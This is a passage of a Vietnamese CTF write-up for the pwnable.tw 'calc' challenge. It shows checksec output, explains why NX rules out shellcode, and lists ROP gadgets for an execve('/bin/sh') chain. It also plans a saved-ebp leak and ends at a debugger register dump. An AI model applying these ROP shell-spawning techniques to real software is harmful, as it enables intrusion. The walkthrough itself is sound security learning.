 úi dồi ôi 

## OKE, sau phần re thì giờ ta sẽ tiến hành khai thác

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwnable_tw/calc$ checksec calc
[*] '/mnt/d/pwn_myself/pwnable_tw/calc/calc'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Với check file như này, có canary, nx enable, cộng với việc ta có thể leak và write tùy ý thì có lẽ không write shellcode rồi call về đấy để thực thi được tại 

> vì khi mà nx được bật thì khi load chương trình vào bộ nhớ, sẽ không cho phép 1 vùng nhớ nào đó có cả 2 quyền writeable và executable. 
>
> Vùng .text chứa code chỉ có thể execute mà không thể write, các vùng như stack, heap, data, bss chứa dữ liệu thì có thể write nhưng không thể execute. 
>
> Do đó ta không thể khai thác theo hướng chèn shellcode vào stack và cho return address trỏ về shellcode được.

Giờ ta sẽ hướng đến ROP, nãy mình check thì thấy quá tr gadget :)), nên là maybe ta có thể làm gì đó với mớ tài nguyên này.

```python

0x0805c34b : pop eax ; ret
0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
0x08049a21 : int 0x80

```

Với nhiêu đây thì ta có thể gọi execve() rồi nhợ :3

* eax = 0x0b
* ebx = address of "/bin/sh"
* ecx = edx = \x00

Vậy thì làm sao để mà thực thi được các gadget mà ta inject vào. Đó là lúc t cần previous_ebp, tức là ebp của hàm main, and why?, sau khi thực thi xong calc => quay về hàm main, lúc quay về này nó sẽ tiến hành thực hiện các gadget của chúng ta ngay sau ebp hàm main, thay vì exit(). Nai xừ.

Oke giờ ta sẽ đi leak prev_ebp

Đặt breakpoint và ta có :

```shell
pwndbg>
0x08049382 in calc ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
 EAX  0x0
 EBX  0x80481b0 (_init) ◂— push ebx
 ECX  0x80ed4d4 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
 EDI  0x80ec00c (_GLOBAL_OFFSET_TABLE_+12) —▸ 0x8069120 (__stpcpy_sse2) ◂— mov edx, dword ptr [esp + 4]
 ESI  0x0
 EBP  0xffffd218 —▸ 0xffffd238 —▸ 0x8049c30 (__libc_csu_fini) ◂— push ebx
*ESP  0xffffcc60 ◂— 0x0
*EIP  0x8049382 (calc+9) ◂— mov eax, dword ptr gs:[0x14]
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
```